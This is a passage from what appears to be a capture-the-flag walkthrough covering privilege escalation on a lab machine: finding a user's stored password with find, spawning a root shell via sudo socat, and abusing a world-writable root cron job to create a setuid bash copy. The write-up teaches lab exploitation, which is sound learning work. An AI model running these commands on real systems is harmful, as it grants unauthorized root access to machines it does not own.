 ![](9.png)


# **Privilege Escalation**

## Elyana

Checking elyana's home directory, we find a hint informing us that elyana's password is somewhere in the system.

![](11.png)

We searched for file that belongs to `elyana` with the command `find / -type f -user elyana 2>/dev/null`, and we found the file with elyana's password, now we can either switch to that user or ssh into the machine.

## root

### Method 1

We check our current privileges with `sudo -l`.

```terminal
-bash-4.4$ sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
```

We can run `socat` as root, if we check [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo) for this entry, we find that we can run the following command to get root.

```bash
sudo socat stdin exec:/bin/sh
```

### Method 2

Next i checked cronjobs and found the following.

![](10.png)

There a script that being run every minute by root and it's writable by everybody. Let's copy the following code to get a root shell.

```bash
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

We wait for the script to execute and run `/tmp/bash -p`
